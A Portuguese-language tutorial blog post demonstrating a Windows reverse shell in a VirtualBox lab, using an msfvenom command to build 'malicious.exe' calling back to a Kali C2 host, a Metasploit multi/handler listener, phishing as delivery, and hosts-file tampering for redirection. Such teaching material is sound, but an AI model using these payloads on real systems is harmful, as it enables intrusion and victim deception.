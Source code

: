 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


[Página Inicial](https://carineconstantino.github.io/cybersecurity/)

## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e entres as redes LAN, com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão de saída da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Ambiente de Teste

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração quando o payload é criado. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali recebe a conexão da vítima e para que essa comunicação funcione, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/x64/shell/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

## Executando o shell reverso

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)

Depois que o terminal estiver disponível, o invasor inicia um ataque interno mais sofisticado. Uma das ações que podem ser executadas é a alteração do arquivo hosts para direcionar o acesso da vítima para um site específico. No exemplo abaixo, eu adiciono uma entrada DNS no arquivo hosts e sempre que a vítima for utilizar o google, sua navegação é direcionada para este artigo, por exemplo. Em um ataque real, o atacante pode enganar a vítima direcionando sua navegação para um site falso ou que mostre um alerta do tipo ransomware, exigindo um pagamento pois a máquina está infectada. O resultado: a vítima entra em pânico.  


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída do comando ser paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo acima. 

